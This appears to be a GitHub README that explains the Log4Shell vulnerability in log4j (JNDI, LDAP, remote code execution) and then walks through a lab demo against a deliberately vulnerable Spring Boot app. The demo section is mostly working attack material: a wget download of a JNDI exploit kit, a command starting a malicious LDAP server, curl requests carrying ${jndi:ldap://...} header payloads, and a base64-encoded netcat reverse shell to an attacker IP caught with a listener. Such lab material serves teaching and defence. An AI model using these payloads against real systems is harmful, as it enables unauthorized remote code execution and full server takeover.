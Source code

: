# Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.\

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```\

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.\

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.

  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  ```wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar```
  ![Alt Text](download_ldap.png)
- [x] *Run LDAP server*:
  - Move to the jar location and run the server using below command.
    `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389`
  ![Alt Text](run_ldap.png)
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.\
- [x] *Create a spring boot application using log4j2 dependence with version less than 2.15*: 
      -  Open any Java IDE (Eclipse or SpringToolSuite) \
         ![createapp](http://g.recordit.co/I5a0PeQpkf.gif)
     -  Replace pom.xml with below file & copy below LogController src/main/java,\
          [pom](pom.xml) \
          [LogController](LogController.java) \
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");\
      `System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");`
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker container.
    `sudo apt install docker.io` 
<br/>    
### Live Demo:
I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.
  1. Open ==calculator== on windows system by executing vulnerable java application on local system.
       - Run the spring boot application as below.
    ![run app](http://g.recordit.co/AW98phqr4i.gif) 
       - Use curl to send request to host server with malicious code.
    	`curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'` 
    	<br/>
    ![check calc](http://g.recordit.co/I5a0PeQpkf.gif) 
  2. Creating a ==txt file== inside server after hosting application on docker container.
    	- Host the same application in docker using below commands.
    	`docker pull vamsi13krish/vulnerable-app:latest`
    	`docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app`
    	` curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'`
   	- Check the docker container for pwned.txt file in /tmp folder using below command
    	`docker exec -it <container ID> ls /tmp`
  	>*_NOTE_*: Use **docker ps** to get container ID 

    ![file creation gif](http://g.recordit.co/Bn8ImBR7wn.gif)
  3. Getting complete access to the host server using ==netcat== command that will be passed in malicious code on to host server using log4j vulnerability.
  	- Use below command to convert the required netcat command to base64 encoded string.
    	`echo "nc 172.26.9.117 9999 -e /bin/sh" | base64`
  	- Copy the base64 string and paste after exec_global/ in below command
   	 `${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}`
  	- Now open other terminal and run below command to listen to the port 9999.
    	`nc -nvlp 9999`
  	- Run below Curl command and check the listening terminal again
  	  `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'`  
    ![Boom](http://g.recordit.co/xrvaibjQcF.gif)
